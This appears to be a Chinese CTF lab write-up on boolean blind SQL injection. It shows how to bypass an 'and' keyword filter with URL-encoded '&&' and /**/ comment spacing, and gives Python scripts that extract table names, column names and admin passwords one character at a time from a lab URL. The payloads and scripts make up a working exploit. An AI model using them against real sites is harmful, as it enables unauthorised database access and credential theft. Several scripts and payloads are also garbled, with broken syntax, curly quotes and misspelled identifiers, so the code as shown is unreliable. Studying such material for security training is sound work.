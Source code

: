 # ==布尔盲注CTF解题方法==

步骤：

1.确定注入点

2.对注入点测试，获取原始注入利用语句

3.Python编写代码自动注入



注入点 id 使用 and 1=1 和 and 1=2 由于过滤了 and 关键字，所以无法探测出是否存在SQL注入。此时可以使用 && 替换 and 关键字，绕过过滤

```
?id = 1%26%261  
%26是&的UR编码
?id=1%26%260

注意：由于&默认会被识别为参数链接的符号，没有其他作用，所以在Burpsuite中必须对&进行URL编码
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230831160058396.png" alt="image-20230831160058396" style="zoom:200%;" />



对注入点测试，获取原始注入利用语句

```sql
select * from person where id = -1 or ord(mid((select table_name from information_schema.tables where table_schema in (database()) limit 1 offset 0) from 1 for 1)) in (97);

-1/**/or/**/ord(mid((select/**/table_name/**/from/**/information_shcema.tables/**/where/**/table_shcema/**/in/**/(database())/**/limit/**/1/**/offset/**/0)/**/from/**/1/**/for/**/1))/**/in/**/(97);
```



**Python编写代码自动化注入**

表名获取

```python
import requests

chars ="}{-0123456789abcdefghijklmnopqrstuvwxyz"
url ="http://192.168.8.102/01SQL/05Boolean-CTF/index.php"
for n in range(0,2):
	table_name = ''
	for i in range(1,50):
		for char in chars:
			params = {
"id":"-1/**/or/**/mid((select/**/table_name/**/from/**/information_schema.tables/**/where/**/table_schema/**/in/**/(database())/**/limit/**/1/**/offset/**/"+str(n)+")/**/from/**/"+str(i)+"/**/for/**/1)/**/in/**/('"+str(char)+"')"
			}
			r = requests.get(url=url,params=params)
			#print(r.request.url)
			if len(r.text) == 1764:
				table_name += char
	print(table_name)
```

![image-20230831171243206](https://gitee.com/ymq_typroa/typroa/raw/main/image-20230831171243206.png)



字段名获取

```python
-1/**/or/**/mid((select/**/column_name/**/from/**/information_schema.columns/**/where/**/table.name/**/in/**/('admin')/**/limit/**/1/**/0ffset/**/0)/**/from/**/1/**/for/**/1)/**/in/**/('i');

for n in range(0,3):
	column_name = ""
	for i in range(1,50):
		for char in chars
			params = {
"id":"'-1/**/or/**/mid((select/**/column_name/**/from/**/information_schema.columns/**/where/**/tablename/**/in/**/('admin')/**/limit/**/1/**/offset/**/"+Strin)+")/**/from/**/"+str/i)+"/**/for/**/1)/**/in/**/('"+str(char)+”');"
			}
			r = requests .get(url=url,params=params)
			
			if len(r.text) ==1764:
				column_name += char
print(column_name)
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230831171331712.png" alt="image-20230831171331712" style="zoom:200%;" />



字段值获取

```python
-1/**/or/**/mid( select/**/pasSword/**/from/**/admin/**/limit/**/1/**/offset/**/0)/**/from/**/1/**/for/**/1)/**/in/**/('f');

for n in range(0,11):
	password_value = ''
	for i in range(1,50):
		for char in chars:
			params = {
'id' :
"-1/**/or/**/mid((select/**/password/**/from/**/admin/**/limit/**/1/**/offset/**/"+str(n)+")/**/from/**/"+str(i)+"/**/for/**/1)/**/in/**/('"+char+”')"
            }
           r = requests .get(url=url,params=params)
        	if len(r.text) == 1764:
                password_value +=char
print(password_value)
```

<img src="https://gitee.com/ymq_typroa/typroa/raw/main/image-20230831170946267.png" alt="image-20230831170946267" style="zoom:200%;" />



**总结：1.python实现自动化布尔注入2.布尔注入原理深入了解**